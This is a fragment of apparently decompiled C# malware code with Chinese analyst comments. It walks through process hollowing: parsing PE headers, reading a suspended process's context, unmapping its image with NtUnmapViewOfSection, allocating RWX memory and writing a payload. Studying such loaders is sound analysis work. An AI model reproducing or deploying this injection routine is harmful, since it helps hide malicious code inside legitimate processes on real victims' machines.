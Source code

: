 ```c#
            MethodInfo method = typeof(BitConverter).GetMethod("ToInt32");    //具有指定名称的公共方法，这里获取的是 BitConverter.ToInt32 
            object[] parameters = new object[]        //注意这里的60是0x3c，是DOS头中指向PE头的e_lfanew字段
            {
                byte_1,
                60
            };
            int num2 = Convert.ToInt32(method.Invoke(null, parameters));    //0x80，BitConverter.ToInt32 返回由字节数组中指定位置的四个字节转换来的 32 位有符号整数，获取e_lfanew值，PE头位置
            int num3 = BitConverter.ToInt32(byte_1, num2 + 26 + 26);    //从 PE 头出发获取 IMAGE_OPTIONAL_HEADER32.ImageBase 字段，程序装载基地址，默认是0x400000
            int[] array = new int[179];    //定义一个179个dword大小的数组，根据后面的引用可知这是接收指定线程的相应上下文的 CONTEXT 结构
            array[0] = 65538;
            if (IntPtr.Size == 4)
            {
                if (!Class3.GetThreadContext(@PROCESS_INFORMATION.@hProcess, array))    //检索指定线程的上下文并存入代表CONTEXT 结构的 array 数组中。
                {
                    throw new Exception();
                }
            }
            else if (!Class3.Wow64GetThreadContext(@PROCESS_INFORMATION.@hProcess, array))
            {
                throw new Exception();
            }
            int num4 = array[41];        //获取一个成员值 0x00933000 ，微软文档没有说每个字段代表什么意思。但是查了很久资料发现这里的寄存器的值应该是指向创建进程中的任何一个虚拟地址就够了。
            int num5 = 0;
            if (!Class3.ReadProcessMemory(@PROCESS_INFORMATION.@hProcess, num4 + 4 + 4, ref num5, 4, ref num))   
//从新创建的进程的0x00933008处读取4字节值存入到当前进程的num5缓存区中，num5=0x00650000
            {
                throw new Exception();
            }
            if (num3 == num5 && Class3.NtUnmapViewOfSection(@PROCESS_INFORMATION.@hProcess, num5) != 0)
//ZwUnmapViewOfSection 例程从主题进程的虚拟地址空间中取消映射某个部分的视图。从 ZwUnmapViewOfSection 返回时，视图占用的虚拟地址区域不再保留，可用于映射其他视图或私有页面。
// BaseAddress 参数指向要取消映射的视图的基虚拟地址的指针。此值可以是视图中的任何虚拟地址。所以即使 num5=0x00650000 而不是 0x400000 也会取消映射整个视图 （这里查了很久才明白是这么回事）
            {
                throw new Exception();
            }
            int int_ = BitConverter.ToInt32(byte_1, num2 + 80);        //PE头基础上定位0x50并获取值IMAGE_OPTIONAL_HEADER32.SizeOfImage 内存中整个 PE 文件的映射尺寸

            int int_2 = BitConverter.ToInt32(byte_1, num2 + 42 + 42);    //定位PE基础上0x54的IMAGE_OPTIONAL_HEADER32.SizeOfHeaders字段头+节表按照文件对齐粒度对齐后的大小
            int num6 = Class3.VirtualAllocEx(@PROCESS_INFORMATION.@hProcess, num3, int_, 12288, 64);
//在指定进程的虚拟地址空间内保留、提交或更改内存区域的状态。该函数将其分配的内存初始化为零。
//num3，要分配的页面区域指定所需起始地址的指针，0x400000
//int_，前面 PE 文件的映射尺寸
//0x3000，MEM_COMMIT | MEM_RESERVE，保留和提交页面
//0x40，PAGE_EXECUTE_READWRITE，启用对已提交页面区域的执行、只读或读/写访问。
            if (num6 == 0)
            {
                throw new Exception();
            }
            if (!Class3.WriteProcessMemory(@PROCESS_INFORMATION.@hProcess, num6, byte_1, int_2, ref num))
//将数据写入指定进程中的内存区域，这里写入200h大小，后面会继续写入
//num6=0x00400000
```